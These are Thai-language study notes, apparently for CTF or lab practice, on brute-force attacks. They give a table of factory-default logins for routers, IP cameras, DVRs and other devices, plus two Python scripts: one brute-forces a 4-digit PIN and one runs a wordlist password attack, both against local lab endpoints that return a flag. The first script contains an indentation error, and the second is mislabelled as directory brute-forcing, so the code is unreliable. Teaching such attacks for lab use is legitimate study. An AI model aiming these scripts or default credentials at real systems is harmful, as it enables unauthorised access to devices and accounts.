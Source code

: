 **Brute-Forcing** คือ การสุ่มความเป็นไปได้ เช่น การสุ่มรหัสผ่าน การสุ่มชื่อผู้ใช้รวมไปถึงการสุ่มเพื่อถอดรหัสต่าง(hash)<br>ปัจจัยที่มีผลต่อความสำเร็จในการโจมตีแบบนี้ ได้แก่
- **ความซับซ้อน** -> การที่รหัสผ่านมีความยาวที่มาก มีการผสมระหว่างตัวอักษรเล็กและใหญ่รวมถึงตัวเลขและอักขรพิเศษ ทำให้ยากต่อการที่จะโจมตีสำเร็จ
- **พลังการประมวลผล** -> ในปัจจุบัน ฮาร์ดแวร์ได้พัฒนาไปไกลมาก มีพลังการคำนวนที่มากขึ้น ส่งผลให้เพิ่มโอกาสที่จะโจมตีสำเร็จมากขึ้น
- **การรักษาความปลอดภัย** -> อาจมีการเก็บรหัสผ่านและชื่อผู้ใช้โดยการ hash และหลีกเลี่ยงที่จะเก็บแบบ plain text รวมไปถึงการทำให้การโจมตีแบบนี้ทำได้ช้าลง ส่งผลผลให้ต้องใช้เวลานานมากขึ้นในการโจมตี

![](picture/brute_how_work.png)
## Default Password 
[Top-Username-list.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)

| **Device/Manufacturer** | **Default Username** | **Default Password** | **Device Type**              |
| ----------------------- | -------------------- | -------------------- | ---------------------------- |
| Linksys Router          | admin                | admin                | Wireless Router              |
| D-Link Router           | admin                | admin                | Wireless Router              |
| Netgear Router          | admin                | password             | Wireless Router              |
| TP-Link Router          | admin                | admin                | Wireless Router              |
| Cisco Router            | cisco                | cisco                | Network Router               |
| Asus Router             | admin                | admin                | Wireless Router              |
| Belkin Router           | admin                | password             | Wireless Router              |
| Zyxel Router            | admin                | 1234                 | Wireless Router              |
| Samsung SmartCam        | admin                | 4321                 | IP Camera                    |
| Hikvision DVR           | admin                | 12345                | Digital Video Recorder (DVR) |
| Axis IP Camera          | root                 | pass                 | IP Camera                    |
| Ubiquiti UniFi AP       | ubnt                 | ubnt                 | Wireless Access Point        |
| Canon Printer           | admin                | admin                | Network Printer              |
| Honeywell Thermostat    | admin                | 1234                 | Smart Thermostat             |
| Panasonic DVR           | admin                | 12345                | Digital Video Recorder (DVR) |
## ตัวอย่าง script ที่ใช้ brute-force 
### pin brute-force
```python
import requests

ip = "127.0.0.1" # target IP
port = "8888" # target port

# try 4-digit PINs (0000 -> 9999)
for pin in range(10000):
	format_pin = f"{pin:04d}" # convert number e.g., pin=7 -> 0007
	print(f"Attempted PIN: {format_pin}")
	
	try:
		response = requests.get(f"http://{ip}:{port}/pin?pin={format_pin}")
		if response.ok:
			data = response.json()
				if "flag" in data:
					print(f"Found PIN: {format_pin}")
					print(f"Flag is: {data['flag']}")
					break
	except requests.exceptions.RequestException as e:
		print(f"Error: {e}")
```

### directory brute-force
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

